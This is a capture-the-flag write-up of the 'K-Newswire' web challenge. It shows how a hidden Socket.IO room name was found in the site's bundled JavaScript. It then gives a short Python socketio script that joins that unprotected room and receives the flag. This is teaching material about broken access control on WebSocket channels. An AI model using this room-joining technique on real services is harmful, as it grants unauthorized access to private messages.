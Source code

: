 # Writeup 1
https://github.com/S450R1/kaspersky-ctf-writeups/tree/main/web/k-newswire

# Writeup 2
Writeup: K-Newswire (lil bit AI help for this writeup )

 Challenge Overview

We were given a service running at:


http://k-newswire.task.sasc.tf:8000/


At first glance, it looks like a news application with a front-end served over HTTP and some kind of real-time updates happening behind the scenes. The task was to retrieve the hidden flag.

---
 
Recon

Inspecting the static assets, I found an interesting bundled JavaScript file:


http://k-newswire.task.sasc.tf:8000/assets/index-CrDw9_mc.js


Looking inside, there was a clear reference to a WebSocket client:

ws://k-newswire.task.sasc.tf:8000/socket.io/?EIO=4&transport=websocket


Even more interestingly, the JS defined some rooms used by the app:

const kh = Object.freeze({
  public: "public",
  secret_announcements: "secret_announcements"
});



So the app connects users to the public room normally, but there exists a hidden room called secret_announcements.

---

Exploitation

To interact with the socket, I wrote a quick Python script using python-socketio:

import socketio

sio = socketio.Client()

@sio.event
def connect():
    print(":white_check_mark: Connected!")

@sio.on("*")  # catch-all handler
def catch_all(event, data):
    print(":envelope_with_arrow:", event, data)

sio.connect("ws://k-newswire.task.sasc.tf:8000", transports=["websocket"])

# normal users get only this:
sio.emit("join", {"room": "public"})

# but let's try the hidden room:
sio.emit("join", {"room": "secret_announcements"})

sio.wait()



Running this script, the server happily let me into the secret_announcements room and pushed a private broadcast and gave us the flag
